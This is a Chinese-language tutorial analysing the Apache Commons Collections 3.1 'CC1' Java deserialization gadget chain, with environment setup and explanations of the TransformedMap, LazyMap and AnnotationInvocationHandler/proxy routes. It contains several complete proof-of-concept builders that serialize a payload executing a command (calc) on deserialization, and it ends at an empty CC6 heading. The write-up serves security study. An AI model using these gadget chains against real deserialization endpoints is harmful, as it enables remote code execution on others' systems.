# CommonCollections链

## 前言

开始学 java 反序列化的时候，搭环境是真的不知道怎么下手，就开始跟着学习 URLDNS 那条链子的时候，就挺不知道怎么操作，但后面在网上找了下 CC链的分析的时候，有师傅把环境搭建过程也写了下，就一下豁然开朗了。

因为也是初次接触 java 反序列化，所以内容会详细一点，文章内容也会比较长，可以跟着索引慢慢看

## CC1

### 环境搭建

JDK1.7

commons-collections-3.1

创建一个Maven项目，不用选择任何Maven模板；
在 pom.xml 中添加如下代码：

```
<dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

刷新一下，成功导入 commons-collections-3.1。



一个POC：

```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws Exception {
        //构建一个transformer的数组
        Transformer[] transformers = new Transformer[] {
                //返回Runtime对象
                new ConstantTransformer(Runtime.getRuntime()),
                //调用exec方法执行calc.exe命令
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"})
        };
        //将transformers数组传入ChainedTransformer类
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChain
        Map innerMap = new HashMap();
        //包装innerMap
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //触发回调
        outerMap.put("test1", "xxxx");
    }
}
```

### 利用链分析

涉及到的接口和类：

在 commons collections 中有一个 Transformer 接口，其中有一个 transform 方法，通过实现此接口来达到类型转换的目的。



其中很多类都实现了了该接口，这里需要用到的是如下三个：

- ConstantTransformer



就是在构造函数的时候传⼊⼀个 对象，然后再在 transform ⽅法直接将传入值返回

所以他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作。

- InvokerTransformer

在实例化该类的时候，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表：



这个类可以⽤来执⾏任意⽅法，其 transform 方法实现了通过反射来调用某方法，



- ChainedTransformer

作⽤是对每个传入的 transformer 都调用其 transform 方法，即前⼀个回调返回的结果，作为后⼀个回调的参数传⼊



这三个 transformer 组合在一起即可实现任意代码执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

public class cc1 {

     public static void main(String[] args){
          ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
     }
}
```

先看一下命令执行点，InvokerTransformer：

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
```

其 transform 方法接收了一个Object，并调用这个Object方法，方法名、方法所需要的参数类型，而这三个都是我们能控制的，所以可以通过这里执行命令，

```java
Runtime runtime = Runtime.getRuntime();
        Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        invoketransformer.transform(runtime);
```

但是这里需要传入一个Runtime的实例进去，而再现实中，不会有这种反序列化之后再往 transform 方法中传入Runtime的实例，所以需要想一下其他办法，这里就需要用到 ConstantTransformer 类了，上面说到他的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，那么可以这样：

```java
Object constantTransformer = new ConstantTransformer(Runtime.getRuntime()).transform(123);
Transformer invoketransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
invoketransformer.transform(constantTransformer);
```

再加上 ChainedTransformer 类就是这样：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
                  new ConstantTransformer(Runtime.getRuntime()),
                  new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})

          });
          chain.transform(123);
```

这样只需要 ChainedTransformer 反序列化后调用 transform 方法即可实现任意代码执行，我们只需要将其序列化即可：



但是却发生了报错，因为这里的 Runtime.getRuntime() 返回的是一个 Runtime 的实例，但是 Runtime 并没有继承 Serializable ，所以会序列化失败，这里就需要用到反射机制了，

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class cc1 {

    public static void main(String[] args) throws IOException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                    null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });
        //chain.transform(123);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(chain);
        System.out.println(barr);
    }
}
```

这里的操作实现的就是，先通过 InvokerTransformer 实现一个反射得到 Runtime 的 getRuntime 这个 Method 对象，然后再通过 InvokerTransformer 的 former 方法反射通过 Invoke 获取到 getRuntime 的执行结果。

按道理说，只需要给 InvokerTransformer 一个待执⾏的⽅法名，一个参数列表的参数类型，一个参数列表即可，但是这里面为什么会有这两个东西呢？



这里需要看一下 getMethod 和 invoke 方法，



我们需要向 getMethod 方法里传入一个 name ，即需调用的方法名，第二个参数就是一个可变参数，所以刚才的 new Class[0] 即对应的可变参数，而 Class[].class 即是他的类型，是因为 InvokerTransformer 的第二个参数需要，

所以刚才的 payload 构造过程已经清晰了，刚才的 payload 只需要反序列化后调用了 transform 方法即可RCE，现在就需要找一个反序列化的点，然后能调用到 transform 即可

在 ysoserial 中使用的是 Lazymap 这个类，而P师傅则用的 TransformedMap 这个类，先看P师傅的吧：

#### TransformedMap类的利用

JDK1.8(无法利用，JDK1.7即可)

- TransformedMap

TransformedMap的作用是来修饰Map的一个类，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。修饰函数如下：

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

第一个参数即是需要传入的map，第二个参数就是处理新元素的Key的回调，第三个参数就是处理新元素的value的回调。

这里的回调不是说的回调函数，而是⼀个实现了 Transformer 接⼝的类，

上面我们使用的是 ChainedTransformer 类的 transform 方法来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，P师傅则是用的 TransformedMap 来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，代码如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.util.HashMap;
import java.util.Map;

public class cc1{

    public static void main(String[] args) throws IOException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class},new Object[] {
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class}, new Object[] {
                        null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

因为 transformerChain 只是⼀系列回调，需要⽤其来包装 innerMap ，即 TransformedMap.decorate ，然后通过往 Map 里面 put 元素触发回调。

还是回到刚才的问题，我们这里是手动执⾏ outerMap.put("test", "xxxx"); 来触发漏洞的，而我们需要找一个能反序列化后调用到了类似的写入操作，这里就存在 sun.reflect.annotation.AnnotationInvocationHandler 这个类

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        ObjectInputStream.GetField fields = s.readFields();

        @SuppressWarnings("unchecked")
        Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
        @SuppressWarnings("unchecked")
        Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(t);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        // consistent with runtime Map type
        Map<String, Object> mv = new LinkedHashMap<>();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
            String name = memberValue.getKey();
            Object value = null;
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    value = new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name));
                }
            }
            mv.put(name, value);
        }

        UnsafeAccessor.setType(this, t);
        UnsafeAccessor.setMemberValues(this, mv);
    }
```

上面的代码是java高版本，这也导致后面无法使用的原因

因为不再直接 使⽤反序列化得到的Map对象，⽽是新建了⼀个 LinkedHashMap 对象，并将原来的键值添加进去。（回溯mv即可发现）：


原本这里存在`Map.Entry<String, Object> memberValue : streamVals.entrySet()`和`memberValue.setValue(...) `

memberValues 就是反序列化后得到的 Map ，也是经过了 TransformedMap 修饰的对象，这⾥遍历了它 的所有元素，并依次设置值。再通过调⽤ setValue 设置值的时候就会触发 TransformedMap ⾥注册的 Transform ，即可执行恶意类

所以我们在POC中需要加入一个 AnnotationInvocationHandler 类，再把前面构造的 HashMap 设置进来，

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);
```

因为 sun.reflect.annotation.AnnotationInvocationHandler 是⼀个内部类，不能直接使⽤ new来实例化，所以这里用到了反射来获取到它的构造方法，并设置为外部可见，再调用的时候就可以实例化了。



可以发现能生成序列化后的数据流，但添加一个反序列化操作却未能弹出计算器，这里需要满足两个条件：

1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第⼀个参数必须是 Annotation (注解类)的⼦类，且其中必须含有⾄少⼀个⽅法，假设⽅法名是X 

   

2. 被 TransformedMap.decorate 修饰的Map中必须有⼀个键名为X的元素

所以 AnnotationInvocationHandler 类的构造函数第一个参数用的是 Retention.class ，因为Retention有⼀个⽅法，名为value；所以，为了再满⾜第⼆个条件，还需要给Map中放⼊⼀个Key是value的元素：

```
innerMap.put("value", "xxxx");
```

所以最终POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class},new Object[] {
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class}, new Object[] {
                null, new Object[0]
            }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        Object obj = construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream os = new ObjectOutputStream(barr);
        os.writeObject(obj);
        os.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

在Java 8u71以后的版本中，由于 sun.reflect.annotation.AnnotationInvocationHandler 发⽣了变化导致不再可⽤，

#### Lazymap类的利用

JDK1.7

回到上面，已经构造的链子如下：

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
```

cc1里面用到了 Lazymap#get 这个方法：



如果这里的 factory 可控，那么调用任意类的 transform 方法了，然后就需要寻找什么地方调用到了get方法，

这里的 factory 并没有被 transient 以及 static 关键字修饰，所以是我们可控的，并且由于 factory 是在类初始化时定义的，所以我们可以通过创建 LazyMap 实例的方式来设置他的值。



但它的构造方法不是 public ，所以需要反射来获取该构造方法，再实例化该类

```java
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                String.class, Class[].class }, new Object[] {
                "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                Object.class, Object[].class }, new Object[] {
                null, new Object[0] }),
            new InvokerTransformer("exec",
                new Class[] { String.class }, new Object[]{"calc"})});

        HashMap innermap = new HashMap();
        Class clazz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor[] constructors = clazz.getDeclaredConstructors();
        Constructor constructor = constructors[0];
        constructor.setAccessible(true);
        LazyMap map = (LazyMap)constructor.newInstance(innermap,chain);
        map.get(123);
```

还有一种方法，在实例 LazyMap 的时候可以不用反射，因为 lazymap 自带了一个方法帮助我们创建其实例：



所以直接这样也可以：

```java
  HashMap innermap = new HashMap();
  LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
```

然后只需要找到一个调用了 get 方法即可，入口还是 AnnotationInvocationHandler 的 readObject：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map var3 = var2.memberTypes();
        Iterator var4 = this.memberValues.entrySet().iterator();
```

而且发现 AnnotationInvocationHandler 的 invoke 调用了 get ：



ysoserial 作者利用了Java的动态代理

即可在运行期动态创建某个`interface`的实例。

一个简单的例子：

```java
package Lnh;

import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;

public class Lnh {

    public static void main(String[] args) throws Exception {
        InvocationHandler handler = new InvocationHandler() {
            @Override
            public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
                System.out.println(method);
                if(method.getName().equals("morning")){
                    System.out.println("Good morning, " + args[0]);
                }
                return null;
            }
        };
        Hello hello = (Hello) Proxy.newProxyInstance(
                Hello.class.getClassLoader(),
                new Class[] { Hello.class },
                handler);
        hello.morning("w0s1np");
    }
}

interface Hello {
    void morning(String name);
}
```

在运行期动态创建一个`interface`实例的方法如下：

1. 定义一个`InvocationHandler`实例，它负责实现接口的方法调用；
2. 通过`Proxy.newProxyInstance()`创建`interface`实例，它需要3个参数：
   1. 使用的`ClassLoader`，通常就是接口类的`ClassLoader`；
   2. 需要实现的接口数组，至少需要传入一个接口进去；
   3. 用来处理接口方法调用的`InvocationHandler`实例。
3. 将返回的`Object`强制转型为接口。

这里调用 hello.morning ，就会触发 handler 的 invoke 方法，并传递三个参数进去，分别为 proxy （代理对象），method 即调用的方法的 Method 对象，args 即传递的参数。

我们即是通过动态代理从 readobject 方法为入口，将 memberValues 设为 AnnotationInvocationHandler 的代理类（ AnnotationInvocationHandler 实现了 InvocationHandler，所以可以被设置为代理类的handler ），那么就会调用  AnnotationInvocationHandler 的 invoke 方法，从而执行 get 方法，

所以最终POC：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class cc1 {

    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                String.class, Class[].class}, new Object[]{
                "getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{
                Object.class, Object[].class}, new Object[]{
                null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, new Object[]{"calc"})});
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);

        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class, map); //创建第一个代理的handler

        Map proxy_map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, map_handler); //创建proxy对象

        Constructor AnnotationInvocationHandler_Constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        AnnotationInvocationHandler_Constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) AnnotationInvocationHandler_Constructor.newInstance(Override.class, proxy_map);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

梳理下流程：

首先触发AnnotationInvocationHandler#readObject方法：



我们将 this.memberValues 设置为 proxy_map ，由于这是一个代理对象，所以调用其方法时，会去调用其创建代理时设置的 handler 的invoke 方法。



这个 proxy_map 设置的 handler 为这个 map_handler，同样是 InvocationHandler 这个类，接着会调用他的 invoke 方法：


InvocationHandler#invoke 的78行代码中调用了 this.memberValues#get，此时的 this.memberValues 为之前设置好的 lazymap，所以这里调用的是 lazymap#get，从而触发后边的 rce 链。

所以第一个 handler 是为了触发 lazymap#get，而第二个 handler 实际上只是为了触发代理类所设置 handler 的 invoke 方法。但先从第二个再到第一个。

同样的这个链子在高版本还是会因为 sun.reflect.annotation.AnnotationInvocationHandler 发⽣了变化导致不再可⽤，

## CC6

### 环境搭建

JDK 1.8

commons-collections-3.1

### 利用链分析

